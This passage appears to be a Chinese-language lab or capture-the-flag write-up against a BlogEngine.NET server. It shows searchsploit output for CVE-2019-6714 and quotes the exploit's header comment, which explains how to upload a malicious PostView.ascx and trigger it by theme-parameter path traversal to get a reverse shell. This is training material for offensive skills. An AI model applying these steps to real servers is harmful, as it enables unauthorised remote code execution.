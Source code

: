 ```shell
Papers: No Results

┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ searchsploit -p 46353
  Exploit: BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution
      URL: https://www.exploit-db.com/exploits/46353
     Path: /usr/share/exploitdb/exploits/aspx/webapps/46353.cs
    Codes: CVE-2019-6714
 Verified: True
File Type: HTML document, ASCII text
```

### Who is the webserver running as?

直接用上面的exp拿intial access。是个路径穿越导致远程代码执行的洞，利用方法如下：

```shell
/*
 * CVE-2019-6714
 *
 * Path traversal vulnerability leading to remote code execution.  This
 * vulnerability affects BlogEngine.NET versions 3.3.6 and below.  This
 * is caused by an unchecked "theme" parameter that is used to override
 * the default theme for rendering blog pages.  The vulnerable code can
 * be seen in this file:
 *
 * /Custom/Controls/PostList.ascx.cs
 *
 * Attack:
 *
 * First, we set the TcpClient address and port within the method below to
 * our attack host, who has a reverse tcp listener waiting for a connection.
 * Next, we upload this file through the file manager.  In the current (3.3.6)
 * version of BlogEngine, this is done by editing a post and clicking on the
 * icon that looks like an open file in the toolbar.  Note that this file must
 * be uploaded as PostView.ascx. Once uploaded, the file will be in the
 * /App_Data/files directory off of the document root. The admin page that
 * allows upload is:
 *
 * http://10.10.10.10/admin/app/editor/editpost.cshtml
 *
 *
 * Finally, the vulnerability is triggered by accessing the base URL for the
 * blog with a theme override specified like so:
 *
 * http://10.10.10.10/?theme=../../App_Data/files
 *
 */
```

改一下exp里监听的ip和端口，然后利用后台的上传把文件传上去，最后再访问一下，就能拿到反弹shell。

